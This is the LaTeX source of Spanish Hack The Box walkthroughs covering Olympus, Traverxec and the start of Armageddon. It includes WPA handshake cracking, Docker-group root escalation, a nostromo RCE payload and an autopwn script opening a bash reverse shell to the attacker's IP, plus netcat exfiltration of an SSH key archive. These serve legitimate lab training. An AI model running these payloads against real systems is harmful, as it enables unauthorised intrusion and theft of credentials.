
\includegraphics[width=0.9\linewidth]{images/aircrack-airgeddon} \caption{aircrack-ng sobre airgeddon capture}\label{fig:unnamed-chunk-3}
\end{figure}

Se ve un ESSID que se llama \texttt{To\_cl0se\_to\_th3\_Sun} que parece turbio, y un handshake que significa que alguien a esperado que una victima se connecte
o reconecte tras un ataque de deautentificacion y a recuperado el hash de autentificacion.

Analizando la captura con \textbf{tshark} se ve que a sido un ataque de deautentificacion

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{tshark}\NormalTok{ -r captured.cap }\OperatorTok{2>}\NormalTok{/dev/null}
\end{Highlighting}
\end{Shaded}

o filtrado por deautentificacion

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{tshark}\NormalTok{ -r captured.cap -Y }\StringTok{"wlan.fc.type_subtype==12"}\NormalTok{ -Tfields -e wlan.da }\OperatorTok{2>}\NormalTok{/dev/null}
\end{Highlighting}
\end{Shaded}

\hypertarget{crackeo-con-aircrack-ng}{%
\subsubsection*{Crackeo con Aircrack-ng}\label{crackeo-con-aircrack-ng}}
\addcontentsline{toc}{subsubsection}{Crackeo con Aircrack-ng}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{aircrack-ng}\NormalTok{ -w /usr/share/wordlists/rockyou.txt captrured.cap}
\end{Highlighting}
\end{Shaded}

Este crack duraria aprox una hora.

Con investigacion S4vi a pillado una palabra flight en un fichero .txt y buscando por el dios griego del vuelo
encontro que este dios seria icarus.

Para ganar tiempo, se crea un diccionario mas pequeñito que contiene la palabra \emph{icar}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{grep} \StringTok{"icar"}\NormalTok{ /usr/share/wordlists/rockyou.txt }\OperatorTok{>}\NormalTok{ dictionary.txt}
\end{Highlighting}
\end{Shaded}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{aircrack-ng}\NormalTok{ -w dictionary.txt captured.cap}
\end{Highlighting}
\end{Shaded}

Ya encontramos la contraseña.

\hypertarget{crackeo-con-john}{%
\subsubsection*{Crackeo con John}\label{crackeo-con-john}}
\addcontentsline{toc}{subsubsection}{Crackeo con John}

Extraemos lo que nos interesa del fichero \textbf{captured.cap} en un fichero mas pequeñito que se llama Captura.hccap que con la utilidad
\textbf{hccap2john} no permite transformarlo en un hash compatible con \textbf{John}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{aircrack-ng}\NormalTok{ -J Captura captured.cap}
\ExtensionTok{hccap2john}\NormalTok{ Captura.hccap }\OperatorTok{>}\NormalTok{ hash}
\ExtensionTok{john}\NormalTok{ -wordlist=/usr/share/wordlists/rockyou.txt hash}
\end{Highlighting}
\end{Shaded}

\hypertarget{conexion-a-la-maquina-victima}{%
\subsection*{Conexion a la maquina victima}\label{conexion-a-la-maquina-victima}}
\addcontentsline{toc}{subsection}{Conexion a la maquina victima}

Ahora que tenemos un usuario potencial y una contraseña, intentamos conectar con ssh al puerto 2222

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ssh}\NormalTok{ icarus@10.10.10.83}
\end{Highlighting}
\end{Shaded}

Con la contraseña encontrada no nos funciona.
Intentamos con el nombre turbio de esta red inalambrica como contraseña.

\textbf{Y PA DENTRO}

\hypertarget{investigacion-de-la-maquina-victima}{%
\subsection*{Investigacion de la maquina victima}\label{investigacion-de-la-maquina-victima}}
\addcontentsline{toc}{subsection}{Investigacion de la maquina victima}

Hay un fichero que contiene un nombre de dominio valido \textbf{ctfolympus.htb}

Intentamos poner el nombre del dominio en el \texttt{/etc/hosts} pero la web sigue siendo la misma.

Sabiendo que el puerto 53 esta abierto y teniendo ahora un nombre de dominio valido, podemos
hacer un ataque de transferencia de zona con \textbf{dig}

\hypertarget{ataque-de-transferencia-de-zona-con-dig}{%
\subsubsection*{Ataque de transferencia de zona con dig}\label{ataque-de-transferencia-de-zona-con-dig}}
\addcontentsline{toc}{subsubsection}{Ataque de transferencia de zona con dig}

El tito nos vuelve a decir que es muy importante no confundir la herramienta dig con dick. Dig esta en
la categoria Ciencia y Tecnologia y la otra en la categoria HotTub ;)

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{dig}\NormalTok{ @10.10.10.83 ctfolympus.htb}
\end{Highlighting}
\end{Shaded}

Como \textbf{dig} nos responde, ya podemos ir enumerando cosas

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Enumerar los mail servers

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{dig}\NormalTok{ @10.10.10.83 ctfolympus.htb mx}
\end{Highlighting}
\end{Shaded}
\item
  Intentamos un ataque axfr

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{dig}\NormalTok{ @10.10.10.83 ctfolympus.htb axfr}
\end{Highlighting}
\end{Shaded}

  \begin{figure}
   
\includegraphics[width=0.9\linewidth]{images/dig-ctfolympus} \caption{dig ctfolympus.htb}\label{fig:unnamed-chunk-4}
   \end{figure}
\end{enumerate}

Se puede ver que hay un usuario y una contraseña potencial en un TXT con una lista de puertos.
La idea aqui seria de hacer un \textbf{Port Knocking}

\hypertarget{port-knocking}{%
\subsection*{Port Knocking}\label{port-knocking}}
\addcontentsline{toc}{subsection}{Port Knocking}

En este caso la idea seria conectarse al puerto 22 (es una suposicion). El problema es que este puerto esta cerrado.
La idea de la tecnica de \textbf{Port Knocking} es que si el atacante golpea unos puertos en un orden definido, por
iptables se puede exponer o bloquear un puerto.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p3456,8234,62431,22 --open -T5 -v -n 10.10.10.83 -r}
\end{Highlighting}
\end{Shaded}

\begin{quote}
{[}!{]} NOTAS: El argumento \texttt{-r} es para decir a NMAP de scanear los puertos en este mismo orden
\end{quote}

Lanzando el comando multiples veces, NMAP nos reporta ahora que el puerto 22 esta ya abierto.
Lo que se puede hacer es, de seguida despues del \textbf{Port Knocking} con nmap, lanzar un comando
ssh a la maquina.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p3456,8234,62431,22 --open -T5 -v -n 10.10.10.83 -r }\KeywordTok{&&} \FunctionTok{ssh}\NormalTok{ prometheus@10.10.10.83}
\end{Highlighting}
\end{Shaded}

Perfecto se nos pregunta por una contraseña \textbf{Y PA DENTRO}

En este momento ya se puede ver la flag \texttt{user.txt} y Podemos pasar a la fase de escalacion de privilegios.

\hypertarget{escalacion-de-privilegios}{%
\section*{Escalacion de privilegios}\label{escalacion-de-privilegios}}
\addcontentsline{toc}{section}{Escalacion de privilegios}

\hypertarget{enumeracion-del-usuario-en-la-maquina-victima}{%
\subsection*{Enumeracion del usuario en la maquina victima}\label{enumeracion-del-usuario-en-la-maquina-victima}}
\addcontentsline{toc}{subsection}{Enumeracion del usuario en la maquina victima}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{whoami}
\FunctionTok{id}
\end{Highlighting}
\end{Shaded}

Ya es sufficiente aqui porque ya se puede ver quel usuario esta en el grupo Docker.

\hypertarget{escalacion-de-privilegios-con-docker}{%
\subsection*{Escalacion de privilegios con Docker}\label{escalacion-de-privilegios-con-docker}}
\addcontentsline{toc}{subsection}{Escalacion de privilegios con Docker}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Checkear las imagenes Docker existentes

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{docker}\NormalTok{ ps}
\end{Highlighting}
\end{Shaded}
\item
  Utilizar una imagen existente para crear un contenedor y \textbf{mountarle} la raiz del systema en el contenedor

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{docker}\NormalTok{ run --rm -it -v /:/mnt rodhes bash}
\BuiltInTok{cd}\NormalTok{ /mnt/root/}
\FunctionTok{cat}\NormalTok{ root.txt}
\end{Highlighting}
\end{Shaded}
\item
  Escalar privilegios en la maquina real

  \begin{itemize}
  \item
    en el contenedor

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /mnt/bin}
\FunctionTok{chmod}\NormalTok{ 4755 bash}
\BuiltInTok{exit}
\end{Highlighting}
\end{Shaded}
  \item
    en la maquina real

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{bash}\NormalTok{ -p}
\FunctionTok{whoami}

\CommentTok{#Output}
\ExtensionTok{root}
\end{Highlighting}
\end{Shaded}
  \end{itemize}
\end{enumerate}

\hypertarget{traverxec}{%
\chapter*{Traverxec}\label{traverxec}}
\addcontentsline{toc}{chapter}{Traverxec}

\hypertarget{introduccion-1}{%
\section*{Introduccion}\label{introduccion-1}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia 23/07/2021 se llama Traverxec.

El replay del live se puede ver en \href{https://www.twitch.tv/videos/1095841567}{Twitch: S4vitaar Traverxec maquina}

\hypertarget{enumeracion-1}{%
\section*{Enumeracion}\label{enumeracion-1}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-1}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-1}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-1}{%
\subsubsection*{Ping}\label{ping-1}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.165}
\end{Highlighting}
\end{Shaded}

ttl: 63 -\textgreater{} maquina linux.
Recuerda que en cuanto a ttl 64 = linux y 128 = windows.
Pero como estamos en hackthebox hay un nodo intermediario que hace que el ttl disminuya una unidad

\hypertarget{nmap-1}{%
\subsubsection*{Nmap}\label{nmap-1}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.165}
\end{Highlighting}
\end{Shaded}

Va un poquito lento\ldots{}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- -sS --min-rate 5000 --open -vvv -n -Pn 10.10.10.165 -oG allPorts}
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p22,80 10.10.10.165 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
22 & ssh & conneccion a la maquina & Usuario contraseña\tabularnewline
80 & http & whatweb, http-enum & Checkear la web\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{empezamos-por-el-puerto-80-1}{%
\subsection*{Empezamos por el puerto 80}\label{empezamos-por-el-puerto-80-1}}
\addcontentsline{toc}{subsection}{Empezamos por el puerto 80}

\hypertarget{whatweb-1}{%
\subsubsection*{Whatweb}\label{whatweb-1}}
\addcontentsline{toc}{subsubsection}{Whatweb}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{whatweb}\NormalTok{ http://10.10.10.165}
\end{Highlighting}
\end{Shaded}

\begin{itemize}
\tightlist
\item
  nostromo 1.9.6
\end{itemize}

\hypertarget{chequear-la-cabecera}{%
\subsubsection*{Chequear la cabecera}\label{chequear-la-cabecera}}
\addcontentsline{toc}{subsubsection}{Chequear la cabecera}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -s -X GET -I http://10.10.10.165}
\end{Highlighting}
\end{Shaded}

\begin{itemize}
\tightlist
\item
  nostromo 1.9.6
\end{itemize}

\hypertarget{browsear-la-web-1}{%
\subsubsection*{Browsear la web}\label{browsear-la-web-1}}
\addcontentsline{toc}{subsubsection}{Browsear la web}

Nada interessante.

\hypertarget{wfuzz-1}{%
\subsubsection*{WFuzz}\label{wfuzz-1}}
\addcontentsline{toc}{subsubsection}{WFuzz}

Como no hay mucho mas que ver, aplicaremos \textbf{fuzzing} para descubrir si hay mas rutas.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.233/FUZZ}
\end{Highlighting}
\end{Shaded}

No hay nada, creamos un fichero de extensiones txt, php, html y fuzzeamos otravez.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -w extensions http://10.10.10.233/FUZZ.FUZ2Z}
\end{Highlighting}
\end{Shaded}

No hay nada.

\hypertarget{evaluacion-de-vulnerabilidades-1}{%
\section*{Evaluacion de Vulnerabilidades}\label{evaluacion-de-vulnerabilidades-1}}
\addcontentsline{toc}{section}{Evaluacion de Vulnerabilidades}

\hypertarget{searchsploit-1}{%
\subsection*{searchsploit}\label{searchsploit-1}}
\addcontentsline{toc}{subsection}{searchsploit}

Chequeamos si existe un exploit relacionado con \textbf{nostromo 1.9.6}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{searchsploit}\NormalTok{ nostromo }
\end{Highlighting}
\end{Shaded}

Hay un script en Python que permitiria hacer ejecucion de comandos. Nos traemos el script en el repertorio de trabajo.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{searchsploit}\NormalTok{ -m 47837}
\FunctionTok{mv}\NormalTok{ 47837.py nostromo_exploit.py}
\end{Highlighting}
\end{Shaded}

Analizando el script con \texttt{cat}, vemos como se uza el exploit. Intentamos reproducir los pasos antes de crearnos nuestro
proprio script.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  En una terminal

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  En otra terminal

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{telnet}\NormalTok{ 10.10.10.165 80}
\ExtensionTok{POST}\NormalTok{ /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0}
\ExtensionTok{Content-Length}\NormalTok{: 1}

\FunctionTok{whoami} \KeywordTok{|} \ExtensionTok{nc}\NormalTok{ 10.10.14.20 443}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Se ve \texttt{www-data} en la primera terminal.

Ya podemos crearnos el script.

\hypertarget{explotacion-de-vulnerabilidad-ganando-acceso-1}{%
\section*{Explotacion de vulnerabilidad \& Ganando Acceso}\label{explotacion-de-vulnerabilidad-ganando-acceso-1}}
\addcontentsline{toc}{section}{Explotacion de vulnerabilidad \& Ganando Acceso}

\hypertarget{autopwn.py}{%
\subsection*{Autopwn.py}\label{autopwn.py}}
\addcontentsline{toc}{subsection}{Autopwn.py}

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/usr/bin/python3}

\ImportTok{import}\NormalTok{ requests}
\ImportTok{import}\NormalTok{ sys}
\ImportTok{import}\NormalTok{ signal}
\ImportTok{import}\NormalTok{ pdb}
\ImportTok{import}\NormalTok{ threading}
\ImportTok{import}\NormalTok{ time}

\ImportTok{from}\NormalTok{ pwn }\ImportTok{import} \OperatorTok{*}

\KeywordTok{def}\NormalTok{ def_handler(sig, frame):}
    \BuiltInTok{print}\NormalTok{(}\StringTok{"}\CharTok{\textbackslash{}n}\StringTok{[!] Saliendo...}\CharTok{\textbackslash{}n}\StringTok{"}\NormalTok{)}
\NormalTok{    sys.exit(}\DecValTok{1}\NormalTok{)}

\CommentTok{# Ctrl+C}
\NormalTok{signal.signal(signal.SIGINT, def_handler)}

\CommentTok{# Variables globales}
\NormalTok{main_url }\OperatorTok{=} \StringTok{"http://10.10.10.165/.}\SpecialCharTok{%0d}\StringTok{./.}\SpecialCharTok{%0d}\StringTok{./.}\SpecialCharTok{%0d}\StringTok{./.}\SpecialCharTok{%0d}\StringTok{./bin/sh"}
\NormalTok{lport }\OperatorTok{=} \DecValTok{443}

\KeywordTok{def}\NormalTok{ makeRequest():}

\NormalTok{    data_post }\OperatorTok{=}\NormalTok{ \{}
\NormalTok{        b}\StringTok{'bash -c "bash -i >& /dev/tcp/10.10.14.20/443 0>&1"'}
\NormalTok{    \}}

\NormalTok{    r }\OperatorTok{=}\NormalTok{ requests.post(main_url, data}\OperatorTok{=}\NormalTok{data_post)}

\ControlFlowTok{if} \VariableTok{__name__} \OperatorTok{==} \StringTok{'__main__'}\NormalTok{:}

    \ControlFlowTok{try}\NormalTok{:}
\NormalTok{        threading.Thread(target}\OperatorTok{=}\NormalTok{makeRequest, args}\OperatorTok{=}\NormalTok{()).start()}
    \ControlFlowTok{except} \PreprocessorTok{Exception} \ImportTok{as}\NormalTok{ e:}
\NormalTok{        log.error(}\BuiltInTok{str}\NormalTok{(e))}

\NormalTok{    p1 }\OperatorTok{=}\NormalTok{ log.progress(}\StringTok{"Acceso"}\NormalTok{)}
\NormalTok{    p1.status(}\StringTok{"Ganando acceso al sistema"}\NormalTok{)}

\NormalTok{    shell }\OperatorTok{=}\NormalTok{ listen(lport, timeout}\OperatorTok{=}\DecValTok{5}\NormalTok{).wait_for_connection()}

    \ControlFlowTok{if}\NormalTok{ shell.sock }\KeywordTok{is} \VariableTok{None}\NormalTok{:}
\NormalTok{        p1.failure(}\StringTok{"No ha sido posible ganar acceso al sistema"}\NormalTok{)}
\NormalTok{        sys.exit(}\DecValTok{1}\NormalTok{)}
    \ControlFlowTok{else}\NormalTok{:}
\NormalTok{        shell.interactive()}
\end{Highlighting}
\end{Shaded}

Lo ejecutamos

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python}\NormalTok{ autopwn.py}
\FunctionTok{whoami}
\CommentTok{#Output}
\ExtensionTok{www-data}

\ExtensionTok{ifconfig}
\end{Highlighting}
\end{Shaded}

El tito prefiere entablarse una shell normal. Se pone en escucha con \texttt{nc\ -nlvp\ 443} y lanza en la shell creado por el script
\texttt{bash\ -i\ \textgreater{}\&\ /dev/tcp/10.10.14.20/443\ 0\textgreater{}\&1}

\hypertarget{tratamiento-de-la-tty-1}{%
\subsection*{Tratamiento de la TTY}\label{tratamiento-de-la-tty-1}}
\addcontentsline{toc}{subsection}{Tratamiento de la TTY}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{script}\NormalTok{ /dev/null -c bash}
\NormalTok{^}\ExtensionTok{Z}
\FunctionTok{stty}\NormalTok{ raw -echo}\KeywordTok{;} \BuiltInTok{fg}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ reset}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ xterm}
\BuiltInTok{export} \VariableTok{TERM=}\NormalTok{xterm}
\BuiltInTok{export} \VariableTok{SHELL=}\NormalTok{bash}

\FunctionTok{stty}\NormalTok{ -a}

\FunctionTok{stty}\NormalTok{ rows }\OperatorTok{<}\NormalTok{numero filas}\OperatorTok{>}\NormalTok{ columns }\OperatorTok{<}\NormalTok{numero columnas}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

\hypertarget{escalada-de-privilegios}{%
\section*{Escalada de privilegios}\label{escalada-de-privilegios}}
\addcontentsline{toc}{section}{Escalada de privilegios}

\hypertarget{enumeracion-del-usuario-en-la-maquina-victima-1}{%
\subsection*{Enumeracion del usuario en la maquina victima}\label{enumeracion-del-usuario-en-la-maquina-victima-1}}
\addcontentsline{toc}{subsection}{Enumeracion del usuario en la maquina victima}

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /home}
\CommentTok{#Output}
\ExtensionTok{david}

\FunctionTok{ls}\NormalTok{ /home/david}
\CommentTok{#Output}
\ExtensionTok{Permisson}\NormalTok{ denied}

\FunctionTok{ls}\NormalTok{ -l /home}
\CommentTok{#Output}
\ExtensionTok{drwx--x--x}
\end{Highlighting}
\end{Shaded}

Enumeramos el systema

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /}
\FunctionTok{id}
\FunctionTok{sudo}\NormalTok{ -l}
\FunctionTok{find}\NormalTok{ \textbackslash{}-perm -4000 }\OperatorTok{2>}\NormalTok{/dev/null}
\BuiltInTok{cd}\NormalTok{ /var}
\FunctionTok{ls}
\BuiltInTok{cd}\NormalTok{ nostromo}
\BuiltInTok{cd}\NormalTok{ conf}
\FunctionTok{cat}\NormalTok{ nhttpd.conf}
\FunctionTok{cat}\NormalTok{ /var/nostromo/conf/.htpasswd}
\end{Highlighting}
\end{Shaded}

Encontramos el hash del usuario david vamos a copiarlo en la maquina de atacante, y intentamos bruteforcear con \textbf{John}

\hypertarget{john}{%
\subsection*{John}\label{john}}
\addcontentsline{toc}{subsection}{John}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{john}\NormalTok{ --wordlist=/usr/share/wordlists/rockyou.txt hash}
\end{Highlighting}
\end{Shaded}

Encontramos una contraseña intentamos ponerla haciendo un \texttt{su\ david} y \texttt{su\ root}, pero no va. La conclusion a la que hay que llegar
es que cuando miras el fichero nhttpd.conf, dice que hay un directorio \textbf{public\_www}.

\hypertarget{investigacion-del-public_www}{%
\subsection*{Investigacion del public\_www}\label{investigacion-del-public_www}}
\addcontentsline{toc}{subsection}{Investigacion del public\_www}

Intentamos ver si esta en el directorio \texttt{/home/david/public\_www} y efectivamente. hay un fichero comprimido y nos vamos a transferir
a nuestro equipo de atacante.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  En el equipo de atacante

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443 }\OperatorTok{>}\NormalTok{ comprimido.tgz}
\end{Highlighting}
\end{Shaded}
\item
  En el equipo victima

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ 10.10.14.20 443 }\OperatorTok{<}\NormalTok{ backup-ssh-identity-files.tgz}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Descomprimimos el archivo con el comando

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{7z}\NormalTok{ l comprimido.tgz}
\ExtensionTok{7z}\NormalTok{ x comprimido.tgz}
\ExtensionTok{7z}\NormalTok{ l comprimido.tar}
\ExtensionTok{7z}\NormalTok{ x comprimido.tar }
\end{Highlighting}
\end{Shaded}

Hay la clave privado del usuario david pero esta protegida por contraseña. La tenemos que romper.

\hypertarget{ssh2john}{%
\subsection*{ssh2john}\label{ssh2john}}
\addcontentsline{toc}{subsection}{ssh2john}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{ssh2john.py}\NormalTok{ id_rsa }\OperatorTok{>}\NormalTok{ hash}
\ExtensionTok{john}\NormalTok{ --wordlist=/usr/share/wordlists/rockyou.txt hash}
\end{Highlighting}
\end{Shaded}

La contraseña de la id\_rsa a sido crackeada y ya nos podemos conectar con ssh

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ssh}\NormalTok{ -i id_rsa david@10.10.10.165 }
\end{Highlighting}
\end{Shaded}

\hypertarget{escalada-de-privilegio-para-root}{%
\subsection*{Escalada de privilegio para root}\label{escalada-de-privilegio-para-root}}
\addcontentsline{toc}{subsection}{Escalada de privilegio para root}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ls}\NormalTok{ -l}
\CommentTok{#Output}
\ExtensionTok{bin}

\BuiltInTok{cd}\NormalTok{ bin/}
\FunctionTok{cat}\NormalTok{ server-stats.sh}
\end{Highlighting}
\end{Shaded}

Vemos en este fichero que sudo puede ejecutar \textbf{journalctl}

Vamos a la pagina de \href{gtfobins.github.io}{gtfobins} y buscamos por jounalctl

El \textbf{gtfobins} dice que hay que lanzar jounalctl con sudo y en otra linea poner \texttt{!/bin/sh}

\begin{quote}
{[}!{]} NOTA: cuando pone ! en otra linea quiere decir que hay que ejecutarlo en modo less. O sea hay que reducir la terminal para que se pueda introducir un nuevo commando. En este caso !/bin/sh
\end{quote}

Ya estamos root y seguimos mas hack que nunca.

\hypertarget{armageddon}{%
\chapter*{Armageddon}\label{armageddon}}
\addcontentsline{toc}{chapter}{Armageddon}

\hypertarget{introduccion-2}{%
\section*{Introduccion}\label{introduccion-2}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia 24/07/2021 se llama Armageddon.

El replay del live se puede ver en \href{https://www.twitch.tv/videos/1096891939}{Twitch: S4vitaar Olympus maquina}

\hypertarget{enumeracion-2}{%
\section*{Enumeracion}\label{enumeracion-2}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-2}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-2}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-2}{%
\subsubsection*{Ping}\label{ping-2}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.233}
\end{Highlighting}
\end{Shaded}

ttl: 63 -\textgreater{} maquina linux.
Recuerda que de ttl 64 = linux y 128 = windows.
Pero como estamos en hackthebox hay un nodo intermediario que hace que el ttl disminuya una unidad

\hypertarget{nmap-2}{%
\subsubsection*{Nmap}\label{nmap-2}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.233 -oG allPorts}
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p22,80 10.10.10.233 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{itemize}
\tightlist
\item
  Drupal 7
\end{itemize}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
22 & ssh & Accesso directo & usuario y contraseña\tabularnewline
80 & http & Drupal-armageddon (drupalgeddon2) & Checkear el exploit\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{browsear-la-web-2}{%
\subsubsection*{Browsear la web}\label{browsear-la-web-2}}
\addcontentsline{toc}{subsubsection}{Browsear la web}

Nada interessante.

\hypertarget{evaluacion-de-vulnerabilidades-2}{%
\section*{Evaluacion de vulnerabilidades}\label{evaluacion-de-vulnerabilidades-2}}
\addcontentsline{toc}{section}{Evaluacion de vulnerabilidades}

\hypertarget{druppalgeddon}{%
\subsection*{Druppalgeddon}\label{druppalgeddon}}
\addcontentsline{toc}{subsection}{Druppalgeddon}

\textbf{Druppalgeddon2} es un exploit creado por Hans Topo y g0tmi1k escrito en ruby que aprovecha de vulnerabilidades
de drupal y que directamente nos daria una shell.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{git}\NormalTok{ clone https://github.com/dreadlocked/Drupalgeddon2}
\BuiltInTok{cd}\NormalTok{ Drupalgeddon2}
\FunctionTok{cat}\NormalTok{ drupalgeddon2.rb}
\ExtensionTok{ruby}\NormalTok{ drupalgeddon2.rb}
\end{Highlighting}
\end{Shaded}

\hypertarget{explotacion-de-vulnerabilidad-ganando-acceso-2}{%
